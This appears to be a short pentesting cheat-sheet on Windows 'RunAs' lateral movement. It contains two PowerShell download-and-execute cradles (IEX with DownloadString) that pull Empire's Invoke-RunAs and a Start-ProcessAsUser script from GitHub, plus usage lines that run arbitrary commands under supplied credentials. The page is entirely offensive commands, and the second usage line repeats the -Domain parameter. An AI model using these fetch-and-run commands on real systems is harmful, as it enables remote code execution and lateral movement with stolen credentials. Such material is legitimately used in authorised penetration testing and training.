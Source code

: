 # Scripts

## Invoke-RunAs

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/management/Invoke-RunAs.ps1')

PS C:\> Invoke-RunAs -UserName "<username>" -Password "<password>" -Cmd <command> [-Arguments "<arguments>"]
```

## Start-ProcessAsUser

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Start-ProcessAsUser.ps1')

PS C:\> Start-ProcessAsUser -Domain <domain>.<tld> "<username>" -Password "<password>" -Domain "<DOMAIN>" -Cmd "<command> [arguments]"
```

---
## References

### Pentester's Promiscous Notebook

- [Pentester's Promiscous Notebook: RunAs](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/lateral-movement/runas)